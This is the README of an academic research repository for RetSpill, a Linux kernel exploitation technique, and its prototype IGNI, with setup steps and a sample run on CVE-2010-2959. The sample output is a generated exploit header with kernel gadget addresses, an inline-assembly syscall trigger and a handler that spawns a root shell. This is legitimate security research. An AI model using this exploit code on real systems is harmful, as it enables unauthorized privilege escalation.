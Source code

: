 # RetSpill

RetSpill is a Linux kernel exploitation technique.

It uses the fact that there are already user-controllable data readily on the kernel stack when attackers obtain CFHP (control-flow hijacking primitive).
Since the kernel stack for a specific thread (task) is shared, attackers can spill controlled data on the kernel stack before hand, and use stack shifting gadgets to redirect the control-flow (when CFHP is obtained) to the controlled region to launch code-reuse attack.

Using clever downstream usage of this fact, a CFHP can be turned into unlimited arbitrary read/write/execute without sacrificing the exploit reliability for heap-based vulnerability. This is because we can overwrite the function pointer on heap with a stack-shifting gadget, and invoke the function pointer again and again in different task-context. Most importantly, in each invocation, the payload on stack can be different, leading to invoking different payload without manipulating the heap, thus without introducing exploit reliability degradation.

In this work, we demonstrate that this technique is so simple that it can be semi-automated with our prototype, IGNI.

This repository contains the dataset we used in the paper and our research prototype IGNI.

# Paper

To be presented at CCS 2023

# IGNI

The name is a reference to a magical sign, [Igni](https://witcher.fandom.com/wiki/Igni), in the video game [Witcher 3: Wild Hunt](https://witcher.fandom.com/wiki/Igni#The_Witcher_3:_Wild_Hunt).
Igni can cast a burst of flame to enemies and and set enemies on fire if they are spilled with flammable substances, just like userspace input ;).

## Setup

### Install Dependencies
Install rust as instructed by its [official website](https://www.rust-lang.org/tools/install).
~~~
cargo install ropr
~~~

### Build QEMU
Igni uses QEMU v7.2.0 internally and it has to be v7.2.0. QEMU with version lower or higher than v7.2.0 has issues reconnecting to gdb after snapshot restoration.
~~~
git clone -b v7.2.0 --depth 1 https://git.qemu.org/git/qemu.git
mkdir qemu/build && cd qemu/build && ../configure --target-list=x86_64-softmmu --python=`which python3` --disable-debug-info --enable-slirp && make -j`nproc`
~~~

### Build File System Image
~~~
cd scripts/create-image/ && ./create-image.sh && cd ../..
~~~

## Sample Usage
Run the following command, where `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc` is a proof-of-concept binary that will crash the kernel at `PC==0xffffffffdeadbeef`.
~~~
python analyzer.py -k <retspill>/exploit_env/CVEs/CVE-2010-2959/kernel/arch/x86/boot/bzImage -e <retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc
~~~
After about 5-10 minutes, the system will output something like the following:
~~~
unsigned long pivot = 0xffffffff8194609e;
==============================================================
/******************************************************************/
/*************************AUTO GENERATED***************************/
#define _GNU_SOURCE
#ifndef va_start
#include <stdarg.h>
#endif
#ifndef assert
#include <assert.h>
#endif
#ifndef signal
#include <signal.h>
#endif
#ifndef sched_setaffinity
#include <sched.h>
#endif

// we need this because rcx may not be restored in the trampoline
// so it will crash during kernel-user switch
void get_shell(int signum) {
    printf("uid: %d\n", getuid());
    system("/bin/sh");
    while(1);
}

void __attribute__((constructor)) _igni_init() {
    signal(SIGSEGV, get_shell);
    signal(SIGTRAP, get_shell);
}

unsigned long _args[6];
unsigned long _arg_num = 0;
void __trigger()
{
    
    __asm__(".intel_syntax noprefix;"
            "push rbp;"

            "mov rcx, %0;"
            "mov rdi, [rcx+8*0];"
            "mov rsi, [rcx+8*1];"
            "mov rdx, [rcx+8*2];"
            "mov r10, [rcx+8*3];"
            "mov r8, [rcx+8*4];"
            "mov r9, [rcx+8*5];"

                        "mov rbx, 0xffffffff81e001bb;"
                        "mov rbp, 0xffffffff8244ab00;"
                        "mov r12, 0xffffffff810d0ad0;"
                        "mov r13, 0xffffffff81a373ec;"
                        "mov r10, 0xffffffff81c00162;"
            
            "mov rax, 16;"
            "syscall;"
            "pop rbp;"
            ".att_syntax;"
            : : "r"(_args));
}

void _trigger(int num_args, ...)
{
    va_list ap;
    va_start(ap, num_args);
    for(int i=0; i<num_args; i++) {
        _args[_arg_num++] = va_arg(ap, unsigned long);
    }
    va_arg(ap, unsigned long);
    va_end(ap);

    __asm__(".intel_syntax noprefix;"
            "call __trigger;"
            ".att_syntax;");
    _arg_num = 0;
    if(getuid() == 0) get_shell(0);
}

#define NUMARGS(...)  (sizeof((unsigned long[]){__VA_ARGS__})/sizeof(unsigned long))
#define ignite(...) _trigger(NUMARGS(__VA_ARGS__), __VA_ARGS__ )
/*************************AUTO GENERATED***************************/
/******************************************************************/
~~~

All you need to do is to:
1. include the generated header file
2. hijack the kernel control-flow to `unsigned long pivot = 0xffffffff8194609e;`
3. change how you invoke the triggering system call to `ignite(...)`
Then you can enjoy your root shell!!!

A sample result can be found at `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/exp.c` (the original is poc.c)
